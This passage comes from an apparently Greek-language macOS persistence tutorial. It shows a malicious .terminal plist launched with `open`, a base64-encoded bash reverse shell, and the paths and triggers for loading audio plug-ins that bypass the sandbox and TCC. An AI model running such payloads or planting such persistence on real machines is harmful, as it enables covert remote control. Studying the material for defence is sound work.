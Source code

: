 ```bash
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
EOF

# Trigger it
open /tmp/test.terminal

# Use something like the following for a reverse shell:
<string>echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxOw==" | base64 -d | bash;</string>
```
Μπορείτε επίσης να χρησιμοποιήσετε τις επεκτάσεις **`.command`**, **`.tool`**, με κανονικό περιεχόμενο shell scripts και θα ανοίγονται επίσης από το Terminal.

{% hint style="danger" %}
Αν το terminal έχει **Πλήρη Πρόσβαση Δίσκου** θα μπορεί να ολοκληρώσει αυτή την ενέργεια (σημειώστε ότι η εντολή που εκτελείται θα είναι ορατή σε ένα παράθυρο του terminal).
{% endhint %}

### Πρόσθετα Ήχου

Ανάλυση: [https://theevilbit.github.io/beyond/beyond\_0013/](https://theevilbit.github.io/beyond/beyond\_0013/)\
Ανάλυση: [https://posts.specterops.io/audio-unit-plug-ins-896d3434a882](https://posts.specterops.io/audio-unit-plug-ins-896d3434a882)

* Χρήσιμο για παράκαμψη του sandbox: [✅](https://emojipedia.org/check-mark-button)
* Παράκαμψη TCC: [🟠](https://emojipedia.org/large-orange-circle)
* Μπορείτε να λάβετε κάποια επιπλέον πρόσβαση TCC

#### Τοποθεσία

* **`/Library/Audio/Plug-Ins/HAL`**
* Απαιτείται δικαιώματα ρίζας
* **Ενεργοποίηση**: Επανεκκίνηση του coreaudiod ή του υπολογιστή
* **`/Library/Audio/Plug-ins/Components`**
* Απαιτείται δικαιώματα ρίζας
* **Ενεργοποίηση**: Επανεκκίνηση του coreaudiod ή του υπολογιστή
* **`~/Library/Audio/Plug-ins/Components`**
* **Ενεργοποίηση**: Επανεκκίνηση του coreaudiod ή του υπολογιστή
* **`/System/Library/Components`**
* Απαιτείται δικαιώματα ρίζας
* **Ενεργοποίηση**: Επανεκκίνηση του coreaudiod ή του υπολογιστή

#### Περιγραφή

Σύμφωνα με τις προηγούμενες αναλύσεις είναι δυνατόν να **συντάξετε μερικά πρόσθετα ήχου** και να τα φορτώσετε.
